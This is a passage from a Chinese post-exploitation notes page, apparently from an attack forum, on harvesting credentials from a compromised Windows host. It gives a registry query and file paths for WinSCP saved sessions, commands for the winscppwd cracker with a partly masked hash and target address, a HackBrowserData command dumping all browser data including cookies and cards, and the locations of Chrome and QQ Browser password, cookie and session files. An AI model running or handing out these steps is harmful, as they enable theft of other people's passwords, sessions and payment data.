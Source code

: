 ## 0x08 获取 winscp 记录密码

默认注册表位置：

`shell reg query "HKEY_USERS\S-1-5-21-****\Software\Martin Prikryl\WinSCP 2\Sessions\root@192.168.190.137" /s`  
`HKEY_USERS\SID\Software\Martin Prikryl\WinSCP 2\Sessions\`

WIN7\\8下 WinSCP 文件默认位置：

`%userprofile%\AppData\Local\VirtualStore\Program Files (x86)\WinSCP\WinSCP.ini （64位操作系统）`  
`C:\Program Files (x86)\WinSCP\WinSCP.ini （64位操作系统）`  
`%userprofile%\AppData\Local\VirtualStore\Program Files\WinSCP\WinSCP.ini （32位操作系统`  
`C:\Program Files\WinSCP\WinSCP.ini （32位操作系统）`

winscppwd 破解密码：[https://bitbucket.org/knarf/winscppwd/downloads/winscppwd.exe](https://bitbucket.org/knarf/winscppwd/downloads/winscppwd.exe)

`winscppwd.exe winscp.ini`

[![](assets/1699927162-9b4dee66746994250d6f0a962d7ac479.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-96412466f68faf21627fdedb310ebc28b2557e24.png)

`winscppwd.exe root 10.1xx.x.213 A35C425xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx3B2B6D6F656B696965646E646F8D`

[![](assets/1699927162-e1ddc72b5ab0fd03af7ed72ec1b35cf0.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-f948ae8df55cc0bd1686b34269184f7fda171052.png)

## 0x09 获取浏览器信息

一键获取 HackBrowserData：[https://github.com/moonD4rk/HackBrowserData/](https://github.com/moonD4rk/HackBrowserData/)

`hack-browser-data.exe -b all -f json --dir results --cc`

浏览器各类文件地址：

（1）、google

```php
书签：%userprofile%\AppData\Local\Google\Chrome\User Data\Default\Bookmarks
Cookie: %userprofile%\AppData\Local\Google\Chrome\User Data\Default\Cookies
浏览历史：%userprofile%\AppData\Local\Google\Chrome\User Data\Default\History
当前的session：%userprofile%\AppData\Local\Google\Chrome\User Data\Default\Current
Session 账号密码：%userprofile%\AppData\Local\Google\Chrome\User Data\Default\Login
Data %userprofile%\AppData\Local\Google\Chrome\User Data\Profile 1\Login Data
```

（2）、QQ 浏览器

```php
⽤户数据⽬录：%userprofile%\AppData\Local\Tencent\QQBrowser\User Data\Default 
缓存⽬录：%userprofile%\AppData\Local\Google\Chrome\User Data\Default\Cache\ 
各⽂件如下： 
书签：%userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\Bookmarks 
Cookie: %userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\Cookies 
浏览历史：%userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\History 
当前的session：%userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\CurrentSession
账号密码：%userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\Login 
Data或 %userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\xxxxxxxxxxx\6
```
